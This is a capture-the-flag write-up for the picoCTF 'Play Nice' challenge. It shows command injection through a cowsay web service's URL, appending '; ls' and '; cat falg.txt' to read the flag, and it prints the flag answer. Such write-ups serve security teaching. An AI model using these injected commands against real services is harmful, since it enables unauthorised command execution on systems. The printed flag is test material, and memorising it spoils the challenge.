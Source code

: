 # Play Nice
## Description:
Now presenting [cowsay as a service](https://caas.mars.picoctf.net/)
## Solution:
Following the link takes you to a website that displays:
```
Make a request to the following URL to cowsay your message:
https://caas.mars.picoctf.net/cowsay/{message}
```
Replacing '{message}' part of the URL takes you to a webpage that looks like this:
```
 _______
< hello >
 -------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```
Using this property, you can list down the files using the CLI command ls by typing something like the following in the URL bar:
```
https://caas.mars.picoctf.net/cowsay/hello;%20ls
```
The resulting webpage looks like this:
```
 _______
< hello >
 -------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
```
 Now that we have located the flag file- falg.txt, we can use the 'cat' command to print out the contents of falg.txt
 ```
 https://caas.mars.picoctf.net/cowsay/hello; cat falg.txt
 ```
 ## Answer
 The website prints out the message:
 ```
 picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
 ```